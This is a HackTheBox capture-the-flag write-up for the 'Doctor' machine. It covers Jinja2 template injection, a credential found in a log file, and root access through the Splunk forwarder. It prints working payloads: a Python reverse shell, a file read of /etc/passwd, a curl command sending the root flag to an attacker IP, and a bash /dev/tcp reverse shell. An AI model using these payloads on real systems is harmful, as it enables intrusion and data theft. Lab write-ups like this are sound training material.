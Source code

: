 ```yaml
---
title: Write-up Doctor Machine
author: ScarNGone & pcw3r
date: 2021-02-04 20:00:00 +0100
categories: [HackTheBox, Boot2Root]
tags: [LINUX, EASY, SSTI, Splunk, Jinja2, linpeas]
---
```


**<center>Ref°: HTB-18-Boot2Root</center>**

![Desktop View]({{ "/assets/img/doctor/HTB-Badge-Doctor.png" | relative_url }})

— Doctor is a vulnerable machine through :

* Foothold : Server Side Template Injection
* Lateral movement : Credential in log file
* Prives : Abusing Splunk Forwarder

![Desktop View]({{ "/assets/img/doctor/HTB-Information-Doctor.png" | relative_url }})

## **<span style='color:#c0392b'>[1] Discovery - Figure out environment</span>**
### Network Service Scanning
***
We have the 3 following open ports : 22, 80, 8089

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-nmap.png" | relative_url }})

### Website on port 80
***

```
http://10.10.10.209/
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-website.png" | relative_url }})


### Docteur Secure Messaging on port 80
***
Other page can be resolve with doctors.htb:

```
http://doctors.htb/login?next=%2F
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-secure-messaging.png" | relative_url }})

### Splunk Forwarder on port 8089
***

```
https://doctors.htb:8089/
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-splunk-forwarder.png" | relative_url }})


## **<span style='color:#c0392b'>[2] Weaponization - Find exploit way</span>**
### Archive page under beta testing
***
Reference: <https://portswigger.net/web-security/server-side-template-injection>

Source page reveal page under beta testing:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-source-page.png" | relative_url }})

This page is empty:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-archive.png" | relative_url }})

But we can register new account and post anywant:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-account.png" | relative_url }})

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-post.png" | relative_url }})

And this archive page are updated with our post:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-archive-test.png" | relative_url }})

We can determine the using of template language programmation in this website. 

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-reveal-jinja2.png" | relative_url }})

The payload returns 7777777 and we can identify template used here: `Jinja2`

## **<span style='color:#c0392b'>[3] Foothold - Get into the target </span>**
### Server Side Template Injection with Jinja2
***
Reference: <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>

#### Get remote file

```
.. get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() ..
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-passwd.png" | relative_url }})

#### Gain RCE

```
..['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417) ..
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-rce-1.png" | relative_url }})


## **<span style='color:#c0392b'>[4] Lateral Movement - Move through environment</span>**
### Linpeas reveal password in /var/log/backup
***

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-linpeas.png" | relative_url }})

### su Shaun
***

```
Username: Shaun
Password: Guitar123
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-su-shaun.png" | relative_url }})

## **<span style='color:#c0392b'>[5] Privilege Escalation - Gain higher-level permissions</span>**
### Abusing Splunk Forwarders
***
References: 
* <https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/>
* <https://github.com/cnotin/SplunkWhisperer2>

Shaun account is used like UF agent --> we can run arbitrary command on the server as root.

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-agent-password.png" | relative_url }})

#### Get root flag

```terminal
$ python3 PySplunkWhisperer2_remote.py --host doctors.htb --port XXXX --username XXXX --password XXXX --payload "curl -F 'data=@/root/root.txt' http://IP:PORT" --lhost IP
```
![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-flag.png" | relative_url }})


#### Gain RCE

```terminal
$ python3 PySplunkWhisperer2_remote.py --host doctors.htb --port XXXX --username XXXX --password XXXX --payload "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'" --lhost IP
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-rce-2.png" | relative_url }})

***

# **<center>Trophy</center>**

> **I don't know how to put this but I'm kind of a big deal. People know me. I'm very important. I have many leather-bound books and my apartment smells of rich mahogany**
>
> Ron Burgundy



